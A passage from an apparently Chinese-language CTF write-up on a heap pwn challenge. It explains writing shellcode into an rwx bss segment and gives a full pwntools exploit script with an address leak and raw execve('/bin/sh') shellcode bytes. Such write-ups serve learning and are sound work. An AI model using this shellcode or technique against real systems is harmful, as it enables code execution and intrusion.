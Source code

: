 

这里shellcode之间由于有8字节的`\x00`间隔的原因，无法直接getshell。(也可能是我太菜233)

但是发现bss段上同样也有rwx权限，因此使用堆上的shellcode向bss中写入getshell的shellcode并且jmp过去即可getshell。

![5d00c7ae557c136085](https://i.loli.net/2019/06/12/5d00c7ae557c136085.png)

exp:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年06月11日 星期二 12时07分16秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = process('./pwn')
context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']
context.arch = 'amd64'

def debug():
	gdb.attach(io)
	io.interactive()

def show(idx):
	io.sendlineafter('Your choice:\n','4')
	io.sendlineafter('?\n',str(idx))
def edit(idx,c):
	io.sendlineafter('Your choice:\n','3')
	io.sendlineafter('id:',str(idx))
	io.sendafter('Name:',c)
def buy():
	io.sendlineafter('Your choice:\n','2')

shellcode = "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

show(-1)
io.recvuntil('is:')
codebase = u64(io.recv(6).ljust(8,'\x00')) - 2112952
targetaddr = codebase + 0x204088
bssaddr = codebase + 0x204000
movrbx = "mov rbx,"+hex(bssaddr) + '\n'
'''
0:  48 bb b8 7d 75 55 55    movabs rbx,0x555555757db8
7:  55 00 00
a:  c7 03 6a 42 58 fe       mov    DWORD PTR [rbx],0xfe58426a
10: c7 43 04 c4 48 99 52    mov    DWORD PTR [rbx+0x4],0x529948c4
17: c7 43 08 48 bf 2f 62    mov    DWORD PTR [rbx+0x8],0x622fbf48
1e: c7 43 0c 69 6e 2f 2f    mov    DWORD PTR [rbx+0xc],0x2f2f6e69
25: c7 43 10 73 68 57 54    mov    DWORD PTR [rbx+0x10],0x54576873
2c: c7 43 14 5e 49 89 d0    mov    DWORD PTR [rbx+0x14],0xd089495e
33: c7 43 18 49 89 d2 0f    mov    DWORD PTR [rbx+0x18],0xfd28949
3a: c7 43 1c 05 00 00 00    mov    DWORD PTR [rbx+0x1c],0x5
41: ff e3                   jmp    rbx
'''

sc = "\x48\xBB\xB8\x7D\x75\x55\x55\x55\x00\x00\xC7\x03\x6A\x42\x58\xFE\xC7\x43\x04\xC4\x48\x99\x52\xC7\x43\x08\x48\xBF\x2F\x62\xC7\x43\x0C\x69\x6E\x2F\x2F\xC7\x43\x10\x73\x68\x57\x54\xC7\x43\x14\x5E\x49\x89\xD0\xC7\x43\x18\x49\x89\xD2\x0F\xC7\x43\x1C\x05\x00\x00\x00\xFF\xE3"
```